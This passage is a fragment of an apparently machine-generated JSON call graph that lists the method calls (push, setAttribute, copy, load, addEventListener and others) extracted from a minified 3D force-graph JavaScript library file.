"static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addGroup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "computeFrenetFrames"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPointAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onProgress"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onLoad"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onError"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "load"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "loadAsync"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "load"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setCrossOrigin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setWithCredentials"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setResourcePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRequestHeader"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "load"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "resolveURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "itemStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "itemEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "itemEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "itemError"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "itemEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "itemStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getViewportCount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getFrustum"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMatrices"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMatrixWorld"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyMatrices"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromProjectionMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getViewport"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getFrameExtents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getElapsedTime"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getElapsedTime"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getDelta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getDelta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromCamera"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unproject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unproject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromXRController"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "identity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "extractRotation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectObjects"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "raycast"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeSafe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromVector3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromCartesianCoords"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromCartesianCoords"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "acos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_updatePointer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_updateState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getRaycaster"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setObjects"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getObjects"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "activate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deactivate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromCamera"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectPlane"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rotateOnWorldAxis"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rotateOnWorldAxis"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectObjects"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromNormalAndCoplanarPoint"}, {"confidence": 